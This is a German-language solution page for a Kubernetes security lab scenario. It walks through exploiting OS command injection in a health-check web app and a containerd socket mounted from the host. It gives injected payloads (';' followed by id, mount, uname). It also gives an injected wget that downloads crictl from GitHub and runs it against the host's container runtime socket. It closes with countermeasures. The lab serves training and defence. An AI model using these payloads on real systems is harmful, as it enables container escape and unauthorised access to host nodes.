




# Szenario 02 – DIND (Docker-in-Docker) Exploitation

- **Kategorie**: Container Escape & Runtime
- **Einstieg**: `http://127.0.0.1:1231` (Pod `app=health-check`)

## Kurzinfo & Risiko
Die Webanwendung besitzt eine **OS Command Injection** (`;`). Gleichzeitig ist der `containerd`-UNIX-Socket des Host-Nodes (`/custom/containerd/containerd.sock`) in den Pod gemountet. Damit lässt sich direkt auf die Container-Runtime des Worker-Nodes zugreifen.



## Solution
1. Command Injection testen und gemountete Dateisysteme auflisten:
   ```text
   127.0.0.1; id
   ; mount
   ```
   
   
2. Systemarchitektur ermitteln, `crictl` in `/tmp` laden und Host-Container-Images über den Socket abfragen:
   ```text
   ; uname -a
   ; wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.1/crictl-v1.27.1-linux-amd64.tar.gz -O /tmp/crictl-v1.27.1.tar.gz
   ; tar -xvf /tmp/crictl-v1.27.1.tar.gz -C /tmp/
   ; /tmp/crictl -r unix:///custom/containerd/containerd.sock images
   ```



## Gegenmaßnahmen
- Niemals `docker.sock` oder `containerd.sock` in Pods mounten; für Image-Builds in CI/CD stattdessen rootless Alternativen (z. B. Kaniko, BuildKit) einsetzen.
- Benutzereingaben strikt validieren und niemals direkt an eine Shell übergeben.

---
[← Vorheriges Szenario](./scenario-01.md) | [Solutions-Übersicht](./README.md) | [Nächstes Szenario →](./scenario-03.md)
